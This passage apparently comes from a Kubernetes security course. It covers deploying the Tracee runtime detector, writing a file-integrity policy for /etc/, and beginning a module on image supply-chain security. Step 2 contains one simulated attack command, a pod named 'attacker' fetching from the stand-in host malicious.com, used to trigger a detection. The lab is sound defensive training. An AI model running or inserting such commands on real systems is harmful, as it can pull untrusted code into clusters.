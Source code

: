 #### **Step-by-Step Lab Guide**
1. Deploy Tracee:
   ```bash
   kubectl apply -f https://raw.githubusercontent.com/aquasecurity/tracee/main/deploy/kubernetes/tracee.yaml
   ```

2. Trigger detection event:
   ```bash
   kubectl run attacker --image=alpine -- sh -c 'wget http://malicious.com'
   ```

3. View detections:
   ```bash
   kubectl logs -f deployment/tracee -n tracee | grep 'STANDARD_API_CALL'
   ```

4. Create custom rule:
   ```yaml
   apiVersion: tracee.aquasecurity.com/v1alpha1
   kind: TraceePolicy
   metadata:
     name: file-integrity
   spec:
     rules:
     - event: openat
       args:
       - index: 1
         operator: prefix
         value: "/etc/"
   ```

#### **Common Issues & Troubleshooting**
- **No events detected**: Check kernel version compatibility (≥4.18)
- **High resource usage**: Reduce event filters in configuration

#### **Real-World Applications**
- **Forensics**: Investigate security incidents
- **Zero-Day Detection**: Identify novel attack patterns
- **DevSecOps**: Integrate with SIEM systems

#### **Further Resources**
- [Tracee Rules Documentation](https://github.com/aquasecurity/tracee/blob/main/docs/rules.md)
- [eBPF for Security](https://ebpf.io/applications/#security)

---

### **Module 10: Securing Image Supply Chain**
#### **Learning Objectives**
- Implement container image security
- Prevent supply chain attacks
- Automate vulnerability scanning

#### **Deep Dive**
**Supply Chain Security Layers**
```mermaid
flowchart LR
    Build[Build Time] -->|SAST/SCA| Registry[Registry Security]
    Registry -->|Notary/Cosign| Deploy[Deployment Time]
    Deploy -->|Runtime Admission| Runtime[Runtime Protection]
```
